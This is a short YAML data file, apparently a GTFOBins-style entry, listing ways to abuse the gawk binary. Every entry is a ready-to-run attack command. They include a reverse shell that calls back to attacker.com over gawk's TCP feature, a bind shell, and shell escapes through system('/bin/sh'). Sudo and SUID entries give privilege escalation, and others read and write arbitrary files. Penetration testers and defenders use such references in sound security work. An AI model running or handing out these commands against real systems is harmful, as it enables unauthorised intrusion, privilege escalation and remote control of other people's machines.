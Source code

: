 ```yaml
---
functions:
  shell:
    - code: gawk 'BEGIN {system("/bin/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        gawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        gawk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        gawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        gawk '//' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./gawk '//' "$LFILE"
  sudo:
    - code: sudo gawk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./gawk 'BEGIN {system("/bin/sh")}'
---
```

